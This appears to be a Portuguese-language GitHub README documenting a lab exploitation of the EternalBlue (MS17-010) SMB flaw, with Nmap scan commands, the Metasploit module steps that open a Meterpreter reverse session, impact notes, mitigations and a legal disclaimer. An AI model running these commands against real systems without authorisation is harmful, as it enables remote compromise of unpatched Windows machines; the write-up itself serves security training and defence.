

# 🛡️ Laboratório de Exploração EternalBlue — MS17-010

## 🎯 Objetivo

Demonstrar a exploração da vulnerabilidade **MS17-010**, conhecida como **EternalBlue**, em um ambiente de laboratório controlado.

Este laboratório tem como finalidade entender o impacto de uma vulnerabilidade crítica em serviços SMB e reforçar a importância de correções de segurança, hardening e monitoramento contínuo.

---

## ⚠️ Vulnerabilidade

A **MS17-010** é uma vulnerabilidade crítica no protocolo **SMB** da Microsoft, que permite **execução remota de código — RCE** em sistemas Windows vulneráveis.

Essa falha ficou amplamente conhecida por ter sido explorada em ataques de grande impacto, como o ransomware **WannaCry**.

---

## 🛠️ Ferramentas Utilizadas

- Kali Linux
- Nmap
- Metasploit Framework

---

## 🔎 Etapas Realizadas

1. Reconhecimento de rede utilizando Nmap
2. Identificação de portas SMB abertas
3. Verificação da vulnerabilidade MS17-010
4. Exploração controlada utilizando Metasploit
5. Obtenção de acesso remoto à máquina alvo

---

## 💻 Comandos Utilizados

### Varredura com Nmap

```bash
nmap -sV -sC -p445 <IP_DO_ALVO>
```

### Verificação da vulnerabilidade MS17-010

```bash
nmap --script smb-vuln-ms17-010 -p445 <IP_DO_ALVO>
```

### Exploração com Metasploit

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP_DO_ALVO>
set LHOST <IP_DO_KALI>
run
```

---

## ✅ Resultado

A exploração foi realizada com sucesso em ambiente controlado, permitindo acesso remoto à máquina alvo por meio de uma sessão Meterpreter.

O laboratório demonstra como uma vulnerabilidade crítica sem correção pode permitir o comprometimento completo de um sistema Windows vulnerável.

---

## 💥 Impacto

A exploração da vulnerabilidade MS17-010 pode causar:

- Execução remota de código
- Comprometimento completo do sistema
- Movimento lateral na rede
- Instalação de malware ou ransomware
- Exposição de dados sensíveis
- Interrupção de serviços críticos

---

## 🛡️ Recomendações de Mitigação

Para reduzir o risco associado a essa vulnerabilidade, recomenda-se:

- Aplicar patches de segurança da Microsoft
- Desabilitar SMBv1 quando não for necessário
- Restringir acesso à porta 445/TCP
- Segmentar a rede para limitar movimento lateral
- Monitorar tentativas de exploração SMB
- Manter inventário atualizado de ativos vulneráveis
- Utilizar soluções de EDR, IDS/IPS e SIEM para detecção

---

## 📸 Evidências

### 🖥️ Acesso via Meterpreter



---

## 🚀 Competências Demonstradas

- Reconhecimento de rede
- Enumeração de serviços SMB
- Validação de vulnerabilidade crítica
- Exploração controlada em laboratório
- Uso do Metasploit Framework
- Análise de impacto de vulnerabilidades
- Mentalidade Blue Team e Red Team
- Documentação técnica de evidências

---

## 🧠 Principais Aprendizados

Este laboratório reforça a importância de:

- Manter sistemas atualizados
- Corrigir vulnerabilidades críticas rapidamente
- Reduzir exposição de serviços sensíveis
- Monitorar tráfego SMB na rede
- Aplicar segmentação e controles de acesso
- Entender técnicas ofensivas para fortalecer defesas

---

## ⚠️ Aviso Legal

Este projeto foi conduzido em um ambiente de laboratório controlado, exclusivamente para fins educacionais e profissionais.

Nenhuma técnica demonstrada deve ser aplicada em ambientes de terceiros sem autorização formal.
